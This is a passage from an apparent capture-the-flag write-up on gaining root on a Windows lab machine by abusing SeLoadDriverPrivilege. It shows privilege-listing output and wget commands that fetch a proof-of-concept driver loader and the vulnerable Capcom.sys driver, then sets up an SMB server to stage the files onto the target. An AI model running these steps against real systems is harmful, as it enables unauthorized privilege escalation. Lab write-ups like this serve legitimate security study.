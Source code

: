 ## Root

By looking at the privileges, I can see that <strong><cite>SeLoadDriverPrivilege</cite></strong> is enabled for our user.

{% highlight text %}
*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

{% endhighlight %}

A quick google search to find that [article](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/). 


Basically, we have 2 steps to abuse that vulnerability:

- Load a vulnerable driver (Capcom.sys) in the system;
- Exploit the driver to get an elevated shell. 

### Load Capcom.sys in the system

To load the driver, we have to download the [POC](https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp) from TarlogicSecurity.

{% highlight sh %}
wget https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp.
{% endhighlight %}

Then we need the [driver](https://github.com/GregoryGraindorge/ExploitCapcomMod/blob/main/Capcom.sys): 
{% highlight sh %}
wget https://github.com/GregoryGraindorge/ExploitCapcomMod/blob/main/Capcom.sys
{% endhighlight %}

The EOPLoadDriver.cpp is not compiled yet so we have to do it ourselves. If you don't know how to do that, there is a nice post [here](https://stackoverflow.com/questions/19684190/how-to-compile-c-file-in-visual-studio).

Now that we have compiled the EOPLoadDriver.cpp as LoadDriver.exe, we can just upload everything on the target machine. 

Set up an SMB server. 

{% highlight sh %}
sudo smbserver.py rock . -username rock -password ThanksForReading -smb2support
{% endhighlight %}
